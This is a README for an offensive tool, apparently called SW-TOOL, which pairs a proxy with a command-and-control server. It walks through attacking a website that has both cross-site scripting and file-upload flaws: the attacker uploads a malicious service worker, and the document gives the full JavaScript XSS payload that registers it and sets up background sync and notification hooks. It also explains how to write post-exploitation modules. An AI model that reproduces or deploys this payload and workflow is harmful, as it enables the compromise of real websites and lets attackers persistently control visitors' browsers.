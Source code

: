 # Welcome to SW-TOOL

## Info
This is just a alpha version. The proxying functions by and large is working fine. 
To setup:
1. run start.sh to:
	- startup the proxy on port 8888. Point your browser proxy to that
	- C2 Controller is listening on port 5000. This is the C@ service the SW communicates with
2. Find a vulnerable website with  XSS + fileupload
   - Upload C2_HOST/modules/sw.js
   - Use XSS to install the SW payload. Use either C2_HOST/modules/xss generater payload. For example, the payload would be:

```
navigator.serviceWorker.register('/PATH_TO_SW.js').then(function(s){
	setTimeout(function(){s.sync.register('outbox');s.sync.register('outbox2');s.sync.register('outbox3');s.sync.register('outbox4');Notification.requestPermission().then(function(){s.active.postMessage({'p':'1'})});}, 100);
});
```

To create a custom post-exploitation module:
1. Create a JS with the MODULE_FILENAME.js under: `app/templates/modules`
2. Content of the module has to be:
```
registerModule('MODULE_NAME', null);
// DO STUFF
// ONCE FINISHED, CALL 
deregisterModule('MODULE_NAME');
```

## License

This tool is released under the [MIT License](https://opensource.org/licenses/MIT).